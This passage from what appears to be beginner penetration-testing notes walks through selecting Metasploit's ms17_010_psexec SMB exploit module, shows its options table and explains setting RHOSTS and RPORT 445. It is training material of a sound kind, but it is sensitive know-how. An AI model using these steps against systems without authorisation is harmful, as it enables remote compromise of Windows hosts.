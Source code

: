 `use exploit/windows/smb/ms17_010_psexec`

## configure your attack

then you will have to ensure **all the required options are SET.**

in our example, two options require to be set: **RHOSTS** and **RPORT**

see below, they are empty:

```
Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                                 Required  Description
   ----                  ---------------                                                 --------  -----------
   DBGTRACE              false                                                           yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
   NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                                                                                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445                                                             yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                                                   no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                  no        The service display name
   SERVICE_NAME                                                                          no        The service name
   SHARE                 ADMIN$                                                          yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share   SMBDomain             .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                               no        The password for the specified username
   SMBUser                                                                               no        The username to authenticate as

...SNIP...
```

you can set them with the `set`  command, where RHOSTS is the **IP of our target**  and RPORT standing for **Remote Port** specifies the port number that the Metasploit module will use to communicate with the target system over the network.

💡 ***per Chatgpt it should be set to **445** as this is the port where SMB service is typically run***
